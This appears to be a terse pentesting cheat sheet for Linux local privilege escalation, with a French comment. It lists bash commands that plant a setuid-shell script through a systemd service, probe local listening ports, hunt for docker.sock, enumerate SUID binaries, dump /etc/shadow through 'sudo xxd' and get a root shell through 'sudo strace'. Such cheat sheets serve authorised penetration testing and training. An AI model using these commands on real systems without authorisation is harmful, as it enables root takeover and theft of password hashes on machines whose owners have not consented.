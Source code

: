# LPE Linux

## Tools 

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration")
- [LinEnum](https://github.com/rebootuser/LinEnum")

## Systemd

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Services listening

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

## Docker

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```bash
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```bash
sudo strace -o /dev/null /bin/sh
```

